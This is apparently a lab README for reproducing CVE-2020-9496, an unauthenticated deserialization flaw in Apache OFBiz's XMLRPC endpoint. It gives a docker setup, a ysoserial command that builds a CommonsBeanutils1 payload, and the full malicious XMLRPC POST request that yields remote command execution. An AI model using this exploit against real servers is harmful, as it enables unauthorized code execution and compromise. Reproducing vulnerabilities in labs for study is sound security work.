 # Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2020-9496)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

OfBiz exposes an XMLRPC endpoint at `/webtools/control/xmlrpc`. This is an unauthenticated endpoint since authentication is applied on a per-service basis. However, the XMLRPC request is processed before authentication. As part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands on any OfBiz server with same privileges as the servlet container running OfBiz.

References:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## Vulnerable environment

Executing following command to start an Apache OfBiz (17.12.01):

```
docker-compose up -d
```

After a short wait, you can see the login page at `https://your-ip/myportal/control/main`.

## Vulnerability Reproduce

There is no error message in response by default, we can't reproduce the vulnerability using the POC of [reference link 2](https://github.com/dwisiswant0/CVE-2020-9496), so ask [ysoserial](https://github.com/frohoff/ysoserial) for help.

Generate the CommonsBeanutils1 payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64
```

![](1.png)

Replace the `[base64-payload]` and send the request:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` is succesful executing in the container:

![](3.png)